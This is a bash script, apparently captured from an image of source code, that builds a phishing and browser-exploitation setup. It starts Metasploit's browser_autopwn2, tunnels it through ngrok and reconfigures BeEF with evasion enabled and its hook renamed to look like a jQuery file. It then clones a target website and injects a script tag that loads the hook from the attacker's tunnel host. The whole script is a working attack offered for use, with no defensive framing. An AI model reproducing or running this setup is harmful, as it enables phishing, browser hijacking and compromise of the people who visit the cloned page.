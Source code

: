 ```bash
# Run Ngrok
msfconsole -qx "load msgrpc ServerHost=$LAN Pass=abc123 SSL=y;use auxiliary/server/browser_autopwn2;set LHOST $WAN;set URIPATH /pwn;run -z" >/dev/null 2>&1 &
sleep 1
ngrok http 3000 &>/dev/null &
sleep 3
NGHOST=$(curl -s http://127.0.0.1:4040/api/tunnels | jq -r .tunnels[0].public_url | sed 's|https://||')
printf "${GREEN}[*] ngrok started successfully...${RESET}\n"

# Config BeEF
if grep -q "https: false" /usr/share/beef-xss/config.yaml; then
    sed -i -e 's|user:   "beef"|user:   "unk9vvn"|g' \
           -e 's|passwd: "beef"|passwd: "00980098"|g' \
           -e 's|# public:|public:|g' \
           -e 's|#     host: "" # public|     host: "'$NGHOST'" # public|' \
           -e 's|#     port: "" # public|     port: "443" # public|g' \
           -e 's|#     https: false|     https: true|g' \
           -e 's|allow_reverse_proxy: false|allow_reverse_proxy: true|g' \
           -e 's|hook.js|jqueryctl.js|g' \
           -e 's|BEEFHOOK|UNKSESSION|g' /usr/share/beef-xss/config.yaml
    sed -i -e 's|enable: false|enable: true|g' \
           -e 's|host: "127.0.0.1"|host: "'$LAN'"|g' \
           -e 's|callback_host: "127.0.0.1"|callback_host: "'$LAN'"|g' \
           -e 's|auto_msfrpcd: false|auto_msfrpcd: true|g' /usr/share/beef-xss/extensions/metasploit/config.yaml
    sed -i -e 's|enable: false|enable: true|g' /usr/share/beef-xss/modules/metasploit/browser_autopwn/config.yaml
    sed -i -e 's|enable: false|enable: true|g' /usr/share/beef-xss/extensions/evasion/config.yaml
else
    sed -i -e 's|user:   "beef"|user:   "unk9vvn"|g' \
           -e 's|passwd: "beef"|passwd: "00980098"|g' \
           -e 's|# public:|public:|g' \
           -e 's|host: ".*" # public|host: "'$NGHOST'" # public|' \
           -e 's|port: ".*" # public|port: "443" # public|g' \
           -e 's|https: false|https: true|g' \
           -e 's|allow_reverse_proxy: false|allow_reverse_proxy: true|g' \
           -e 's|hook.js|jqueryctl.js|g' \
           -e 's|BEEFHOOK|UNKSESSION|g' /usr/share/beef-xss/config.yaml
    sed -i -e 's|enable: false|enable: true|g' \
           -e 's|host: ".*"|host: "'$LAN'"|g' \
           -e 's|callback_host: ".*"|callback_host: "'$LAN'"|g' \
           -e 's|auto_msfrpcd: false|auto_msfrpcd: true|g' /usr/share/beef-xss/extensions/metasploit/config.yaml
    sed -i -e 's|enable: false|enable: true|g' /usr/share/beef-xss/modules/metasploit/browser_autopwn/config.yaml
    sed -i -e 's|enable: false|enable: true|g' /usr/share/beef-xss/extensions/evasion/config.yaml
fi
printf "${GREEN}[*] BeEF with new configuration...${RESET}\n"

# Start BeEF XSS framework
cd /usr/share/beef-xss && ./beef -x &>/dev/null &

# Create the Phishing Page
wget -O /tmp/index.html -c -k -q -U \
"Mozilla/5.0 (Macintosh; Intel MacOS X 10_12_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36" $URL

# inject script beef
sed -i "s|</body>|<script>function myFunction(){var x = document.createElement('SCRIPT');x.src='https://${NGHOST}/jqueryctl.js';document.body.appendChild(x);};myFunction();</script>\n</body>|g" /tmp/index.html

```